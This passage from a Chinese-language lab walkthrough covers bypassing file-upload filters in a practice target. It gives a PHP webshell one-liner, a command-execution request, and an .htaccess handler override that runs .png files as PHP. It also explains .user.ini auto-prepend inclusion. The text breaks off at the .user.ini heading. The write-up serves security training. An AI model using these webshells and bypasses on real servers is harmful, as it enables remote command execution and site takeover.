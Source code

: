 **靶机实战**

1. 上传 system.php5 内容为：`<?php @system($_GET['cmd']); ?>`
2. 复制文件上传的路径，请求 `GET /upload/upload/20200304.phtml?cmd=dir;`

### **Pass-4 .htaccess 扩展后缀名**

测试上传的后缀， php5 phtml php3均被限制，尝试上传 .htaccess 配置文件添加扩展后缀

.htaccess:

```
AddType application/x-httpd-php .png .jpeg

SetHandler application/x-httpd-php
```

1. 上传 .htaccess 内容为：`SetHandler application/x-httpd-php`
2. 上传 `eval.png` 内容为：`<?php @system($_GET['cmd']); ?>`
3. 访问文件，执行命令

.htaccess这个文件，把所有的目录下的文件的解析方式都修改成了php，

所以我们第二次上传的图片2.png “png”不在黑名单中，但是由于.htaccess文件所以又把他解析成了php的格式，所以可以完成正常的解析。

注意：

- `.htaccess`和`.user.ini`都只能用于访问本目录下的文件时进行覆盖。

### **Pass-5 .user.ini**

法一：.user.ini

法二：点空格点绕过（抓包修改）

原理：`.user.ini`则可以覆盖`php.ini`的配置。

本关在上传目录下存在readme.php的php文件，可以利用 .user.ini 文件 使得运行 readme.php 时 包含上传的图片，相当于readme.php也有webshell.php。

.user.ini也不是能修改任何php.ini的属性的，php.ini的属性设置可分为四大类

```ini
PHP_INI_USER
;可在用户脚本（例如 ini_set()）或 Windows 注册表（自 PHP 5.3 起）以及 .user.ini 中设定
PHP_INI_PERDIR	
;可在 php.ini，.htaccess 或 httpd.conf 中设定
PHP_INI_SYSTEM	
;可在 php.ini 或 httpd.conf 中设定
PHP_INI_ALL	
;可在任何地方设定
```

具体可以查看PHP官网。https://www.php.net/manual/zh/ini.list.php

这两个都可以使用，属于php中的自动包含文件功能，append是文件执行后包含，prepend是文件执行前包含。

那么就可以利用这两个设置来实现上传.user.ini来加载文件进行包含

**.user.ini**
